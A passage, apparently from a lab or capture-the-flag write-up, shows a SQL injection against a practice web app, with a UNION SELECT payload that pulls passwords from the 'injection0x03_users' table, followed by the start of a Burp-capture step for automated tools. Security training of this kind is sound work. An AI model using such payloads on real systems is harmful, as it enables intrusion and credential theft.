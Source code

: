 ```
Senpai Knife Set' union select null,null,null,password from injection0x03_users#
```

<figure><img src="../../../.gitbook/assets/image (272).png" alt=""><figcaption></figcaption></figure>

Username and Password busted, now let's try using automated tools:

<figure><img src="../../../.gitbook/assets/image (273).png" alt=""><figcaption></figcaption></figure>

Make a request on the website, capture the packet on burp and copy paste it in a .txt file                                                                                                           &#x20;
